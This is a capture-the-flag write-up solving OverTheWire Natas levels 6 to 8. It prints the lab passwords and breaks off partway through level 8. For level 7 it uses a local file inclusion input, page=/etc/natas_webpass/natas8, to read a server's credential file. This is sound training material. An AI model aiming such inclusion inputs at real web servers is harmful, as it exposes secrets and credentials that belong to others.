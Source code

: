 natas6:aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

This one is pretty straightforward, we see in the source code in the link provided that our input is checked against the variable `$secret` included from `includes/secret.inc`. Here's the content of `http://natas6.natas.labs.overthewire.org/includes/secret.inc`

```php
<?
$secret = "FOEIUWGHFEEUHOFUOIU";
?>
```

We input the sting `FOEIUWGHFEEUHOFUOIU` into the field, submit, and get our password

```
Access granted. The password for natas7 is 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
```

===

### [natas7](http://natas7.natas.labs.overthewire.org/)

natas7:7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

A useful hint appears in the source of this one

```html
<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
```

So clearly we're going to be poking our way into the server a bit, let's abuse the `index.php?page=X` layout this page is using. Let's just try `natas7.natas.labs.overthewire.org/index.php?page=` to start

```
Warning: include(): Filename cannot be empty in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening '' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21
```

Okay so it looks like this page just tries to grab whatever file is after the `=` in the url, I bet they aren't going to account for us poking into the root directory `natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8`

```
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe
```

===

### [natas8](http://natas8.natas.labs.overthewire.org/)

natas8:DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

Looking at the provided sourcecode, we just have to reverse this whole operation

```JavaScript
$encodedSecret = "3d3d516343746d4d6d6c315669563362";

function encodeSecret($secret) {
    return bin2hex(strrev(base64_encode($secret)));
}
```
